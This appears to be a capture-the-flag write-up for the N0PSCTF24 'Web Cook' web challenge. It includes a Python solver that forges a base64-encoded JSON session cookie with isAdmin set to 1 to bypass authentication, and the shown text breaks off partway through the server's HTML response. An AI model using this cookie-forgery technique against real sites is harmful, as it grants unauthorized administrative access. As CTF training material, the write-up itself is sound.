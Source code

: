 ### Web Cook

<details><summary>Overview</summary></details>

Next in web category challenge, 

<br>
  <div style="text-align:center">
  <img src="https://raw.githubusercontent.com/nopedawn/CTF/main/N0PSCTF24/Web_Cook/1.png">
  </div>
<br>

By the instructions on the web that we need to create a cookie with a JSON object, base64 encode it and then send it with request. The JSON object should have a key `isAdmin` set to `1`. Here's how we can do it. 

```python {title="solver.py" lineNos=true lineNoStart=1}
import requests
import base64
import json
import re

url = 'https://nopsctf-web-cook.chals.io/'

data = {"username":"Bagas Oli Samping", "isAdmin":1}
json_data = json.dumps(data)

encoded_data = base64.b64encode(json_data.encode()).decode()
cookies = {'session': encoded_data}
response = requests.post(url, cookies=cookies)
print(response.text)

flag = re.findall('N0PS{.*}', response.text)
print("FLAG:", flag[0])
```

```bash
$ python3 solver.py

<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>Recipe - PHP cooking</title>
  <link rel="stylesheet" href="style.css">
</head>
<body>
  <header>
    <h1>Cookie-based PHP authentication</h1>
        <div id="username-input">
        <h4>Hello Bagas Oli Samping!</h4>
    </div>
      </header>

  <section class="recipe-section">
    <div class="recipe-card">
      <h2>Ingredients:</h2>
      <ul>
        <li>Fresh PHP</li>
        <li>A cookie</li>
        <li>Bad security skills flavour</li>
        <li>Base64 ustensils</li>
        <li>Minced JSON</li>
        <li>Gullibility sauce</li>
        <li>Internet hoven</li>
      </ul>
```